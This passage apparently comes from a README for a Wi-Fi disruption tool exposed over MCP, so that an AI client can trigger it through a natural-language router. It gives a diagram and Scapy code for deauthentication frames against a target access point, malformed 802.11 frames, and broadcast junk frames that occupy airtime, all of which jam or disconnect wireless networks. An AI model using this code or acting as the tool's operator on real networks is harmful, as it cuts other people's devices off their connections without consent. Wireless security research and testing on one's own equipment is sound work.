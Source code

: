 ### Architecture
```
┌─────────────────┐    ┌──────────────────┐    ┌─────────────────┐
│   MCP Client    │───▶│  Natural Language │───▶│  Wi-Fi Disrupt  │
│                 │    │     Router        │    │      Tool       │
└─────────────────┘    └──────────────────┘    └─────────────────┘
                                                         │
                                                         ▼
                                               ┌─────────────────┐
                                               │   Scapy Engine  │
                                               │  (Python/Node)  │
                                               └─────────────────┘
                                                         │
                                                         ▼
                                               ┌─────────────────┐
                                               │  Wi-Fi NIC      │
                                               │ (Monitor Mode)  │
                                               └─────────────────┘
```

### Frame Types Used

#### Deauthentication Frames
```python
# 802.11 Deauthentication Frame
RadioTap() / Dot11(
    addr1=target_bssid,      # Destination (client or broadcast)
    addr2=interface_mac,     # Source (attacker)
    addr3=target_bssid       # BSSID (access point)
) / Dot11Deauth(reason=7)    # Reason code 7 (Class 3 frame received from nonassociated station)
```

#### Malformed Frames
```python
# Invalid 802.11 Frame
RadioTap() / Dot11(subtype=0xf) / Raw(b'\x00' * 100)  # Invalid subtype + junk data
```

#### Airtime Occupation Frames
```python
# Large Data Frames
RadioTap() / Dot11(
    addr1="ff:ff:ff:ff:ff:ff",  # Broadcast
    addr2=interface_mac,        # Source
    addr3="ff:ff:ff:ff:ff:ff"   # Broadcast
) / Raw(os.urandom(1500))       # Maximum payload size
```

## Troubleshooting

### Common Issues

